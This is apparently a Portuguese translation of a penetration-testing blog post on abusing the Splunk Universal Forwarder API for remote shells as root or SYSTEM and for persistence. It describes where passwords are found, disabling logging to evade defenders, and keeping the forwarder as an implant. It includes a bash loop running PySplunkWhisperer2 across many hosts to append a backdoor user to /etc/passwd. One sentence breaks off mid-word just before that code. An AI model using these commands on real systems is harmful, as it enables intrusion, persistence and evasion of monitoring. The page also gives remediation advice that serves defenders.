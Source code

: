 Se você está fazendo uma enumeração interna ou externa de uma máquina e encontra o Splunk em execução (porta 8090), se você tiver sorte e souber de quaisquer credenciais válidas, poderá abusar do serviço Splunk para executar um shell como o usuário que está executando o Splunk. Se o root estiver executando, você pode elevar os privilégios para root.

Além disso, se você já é root e o serviço Splunk não está ouvindo apenas em localhost, você pode roubar o arquivo de senha do serviço Splunk e quebrar as senhas ou adicionar novas credenciais a ele. E manter a persistência no host.

Na primeira imagem abaixo, você pode ver como se parece uma página da web do Splunkd.

As seguintes informações foram copiadas de https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/

# Abusando dos Splunk Forwarders para shells e persistência

14 de agosto de 2020

## Descrição:

O agente Splunk Universal Forwarder (UF) permite que usuários remotos autenticados enviem comandos ou scripts únicos para os agentes por meio da API Splunk. O agente UF não valida as conexões que estão vindo de um servidor Splunk Enterprise válido, nem valida o código que está assinado ou comprovado de outra forma para ser do servidor Splunk Enterprise. Isso permite que um invasor que obtenha acesso à senha do agente UF execute código arbitrário no servidor como SYSTEM ou root, dependendo do sistema operacional.

Este ataque está sendo usado por testadores de penetração e provavelmente está sendo ativamente explorado na natureza por atacantes mal-intencionados. Obter a senha pode levar à comprometimento de centenas de sistemas em um ambiente do cliente.

As senhas do Splunk UF são relativamente fáceis de adquirir, consulte a seção Locais comuns de senha para obter detalhes.

## Contexto:

O Splunk é uma ferramenta de agregação e pesquisa de dados frequentemente usada como um sistema de monitoramento de informações e eventos de segurança (SIEM). O Splunk Enterprise Server é um aplicativo da web que é executado em um servidor, com agentes, chamados de Universal Forwarders, que são instalados em cada sistema na rede. O Splunk fornece binários de agente para Windows, Linux, Mac e Unix. Muitas organizações usam o Syslog para enviar dados para o Splunk em vez de instalar um agente em hosts Linux / Unix, mas a instalação do agente está se tornando cada vez mais popular.

O Universal Forwarder é acessível em cada host em https://host:8089. O acesso a qualquer uma das chamadas de API protegidas, como /service/, exibe uma caixa de autenticação básica. O nome de usuário é sempre admin e a senha padrão costumava ser changeme até 2016, quando o Splunk exigiu que todas as novas instalações definissem uma senha de 8 caracteres ou mais. Como você notará em minha demonstração, a complexidade não é um requisito, pois a senha do meu agente é 12345678. Um atacante remoto pode forçar a senha sem bloqueio, o que é uma necessidade de um host de log, pois se a conta for bloqueada, os logs não seriam mais enviados para o servidor Splunk e um atacante poderia usar isso para ocultar seus ataques. A seguinte captura de tela mostra o agente Universal Forwarder, esta página inicial é acessível sem autenticação e pode ser usada para enumerar hosts que executam o Universal Forwarder do Splunk.

![0](https://eapolsniper.github.io/assets/2020AUG14/11_SplunkAgent.png)

A documentação do Splunk mostra o uso da mesma senha de encaminhamento universal para todos os agentes, não me lembro com certeza se isso é um requisito ou se senhas individuais podem ser definidas para cada agente, mas com base na documentação e na memória de quando eu era um administrador do Splunk, acredito que todos os agentes devem usar a mesma senha. Isso significa que, se a senha for encontrada ou quebrada em um sistema, é provável que funcione em todos os hosts do Splunk UF. Essa foi minha experiência pessoal, permitindo a comprometimento de centenas de hosts rapidamente.

## Locais comuns de senha

Com frequência, encontro a senha de texto simples do agente de encaminhamento universal do Splunk nos seguintes locais em redes:

1. Diretório Scripts do Sysvol / domain.com / do Active Directory. Os administradores armazenam o executável e a senha juntos para uma instalação eficiente do agente.
2. Compartilhamentos de arquivos de rede que hospedam arquivos de instalação de TI
3. Wiki ou outros repositórios de notas de compilação na rede interna

A senha também pode ser acessada em forma de hash em Program Files \ Splunk \ etc \ passwd em hosts Windows e em / opt / Splunk / etc / passwd em hosts Linux e Unix. Um invasor pode tentar quebrar a senha usando o Hashcat ou alugar um ambiente de quebra de nuvem para aumentar a probabilidade de quebrar o hash. A senha é um hash SHA-256 forte e, como tal, é improvável que uma senha forte e aleatória seja quebrada.

## Impacto:

Um invasor com uma senha do agente de encaminhamento universal do Splunk pode comprometer totalmente todos os hosts do Splunk na rede e obter permissões de nível SYSTEM ou root em cada host. Eu usei com sucesso o agente Splunk em hosts Windows, Linux e Solaris Unix. Essa vulnerabilidade pode permitir que as credenciais do sistema sejam despejadas, que dados confidenciais sejam exfiltrados ou que ransomware seja instalado. Essa vulnerabilidade é rápida, fácil de usar e confiável.

Como o Splunk lida com logs, um invasor pode reconfigurar o encaminhamento universal na primeira execução de comando para alterar a localização do encaminhamento, desativando o registro no SIEM Splunk. Isso reduziria drasticamente as chances de ser pego pela equipe Blue do cliente.

O Universal Forwarder do Splunk é frequentemente visto instalado em controladores de domínio para coleta de log, o que poderia permitir facilmente que um invasor extraísse o arquivo NTDS, desativasse o antivírus para uma exploração ad
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
Informações do host:

Servidor Splunk Enterprise: 192.168.42.114\
Vítima do agente Splunk Forwarder: 192.168.42.98\
Atacante: 192.168.42.51

Versão do Splunk Enterprise: 8.0.5 (a mais recente em 12 de agosto de 2020 - dia da configuração do laboratório)\
Versão do Universal Forwarder: 8.0.5 (a mais recente em 12 de agosto de 2020 - dia da configuração do laboratório)

### Recomendações de remediação para a Splunk, Inc: <a href="#remediation-recommendations-for-splunk-inc" id="remediation-recommendations-for-splunk-inc"></a>

Recomendo a implementação de todas as seguintes soluções para fornecer defesa em profundidade:

1. Idealmente, o agente Universal Forwarder não teria uma porta aberta, mas sim consultaria o servidor Splunk em intervalos regulares para obter instruções.
2. Ative a autenticação mútua TLS entre os clientes e o servidor, usando chaves individuais para cada cliente. Isso forneceria segurança bidirecional muito alta entre todos os serviços Splunk. A autenticação mútua TLS está sendo amplamente implementada em agentes e dispositivos IoT, este é o futuro da comunicação confiável do cliente do dispositivo com o servidor.
3. Envie todo o código, arquivos de script ou de uma única linha em um arquivo compactado que esteja criptografado e assinado pelo servidor Splunk. Isso não protege os dados do agente enviados por meio da API, mas protege contra a execução remota de código malicioso de terceiros.

### Recomendações de remediação para clientes da Splunk: <a href="#remediation-recommendations-for-splunk-customers" id="remediation-recommendations-for-splunk-customers"></a>

1. Certifique-se de que uma senha muito forte seja definida para os agentes Splunk. Recomendo pelo menos uma senha aleatória de 15 caracteres, mas como essas senhas nunca são digitadas, isso pode ser definido como uma senha muito grande, como 50 caracteres.
2. Configure firewalls baseados em host para permitir apenas conexões com a porta 8089/TCP (porta do agente Universal Forwarder) do servidor Splunk.

## Recomendações para Red Team: <a href="#recommendations-for-red-team" id="recommendations-for-red-team"></a>

1. Baixe uma cópia do Splunk Universal Forwarder para cada sistema operacional, pois é um ótimo implante leve e assinado. É bom manter uma cópia caso a Splunk realmente corrija isso.

## Explorações/Blogs de outros pesquisadores <a href="#exploitsblogs-from-other-researchers" id="exploitsblogs-from-other-researchers"></a>

Explorações públicas utilizáveis:

* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487

Postagens de blog relacionadas:

* https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/
* https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2
* https://www.hurricanelabs.com/splunk-tutorials/using-splunk-as-an-offensive-security-tool

_**Nota:**_ Este problema é um problema sério com sistemas Splunk e tem sido explorado por outros testadores há anos. Embora a execução remota de código seja um recurso pretendido do Splunk Universal Forwarder, a implementação disso é perigosa. Tentei enviar esse bug por meio do programa de recompensa por bugs da Splunk na muito improvável chance de que eles não estejam cientes das implicações de design, mas fui notificado de que todas as submissões de bugs implementam a política de divulgação Bug Crowd/Splunk que afirma que nenhum detalhe da vulnerabilidade pode ser discutido publicamente _nunca_ sem a permissão da Splunk. Solicitei um prazo de divulgação de 90 dias e fui negado. Como tal, não divulguei isso de forma responsável, já que estou razoavelmente certo de que a Splunk está ciente do problema e optou por ignorá-lo, sinto que isso poderia afetar gravemente as empresas e é responsabilidade da comunidade de segurança da informação educar as empresas.
